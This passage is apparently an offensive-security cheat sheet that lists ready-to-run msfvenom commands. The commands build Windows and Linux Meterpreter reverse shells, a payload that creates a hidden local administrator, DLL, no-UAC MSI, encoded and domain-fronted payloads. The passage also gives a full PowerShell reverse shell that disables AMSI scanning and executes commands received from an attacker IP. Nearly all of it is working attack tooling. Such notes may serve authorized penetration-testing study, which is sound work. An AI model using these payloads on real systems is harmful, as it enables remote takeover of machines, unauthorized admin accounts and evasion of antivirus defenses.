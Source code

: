 ```
exploit -j
```

#### Windows Payload Generation

```
# add local admin
msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add likes Passw0rd! && net localgroup administrators likes /add && exit"' -o adduser2.exe -f exe

# reverse tcp
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.83 LPORT=444 -f exe -o tl.exe

# staged powershell meterp x86
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f ps1

# staged rev https meterp x64
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f exe -o met.exe

# Encoded staged rev https meterp x64
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f raw -o met.bin -e x64/xor_dynamic

# dll injection
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LHOST=443 -f dll -o met.dll

# no uac msi - launch remote- msiexec /qn /i http://<attacker>/payload.msi
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 EXITFUNC=thread -f msi-nouac -o meterp64-nouac.msi 

# domain fronting
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

#### Linux Payload Generation

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.49.83 LPORT=80 PrependFork=true -f c
```

#### Powershell Reverse Shell

```
$lf=[Ref].Assembly.GetTypes();Foreach($up in $lf) {if ($up.Name -like "*iUtils") {$c=$up}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true);$TCPClient = New-Object Net.Sockets.TCPClient('192.168.49.83', 80);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()
```
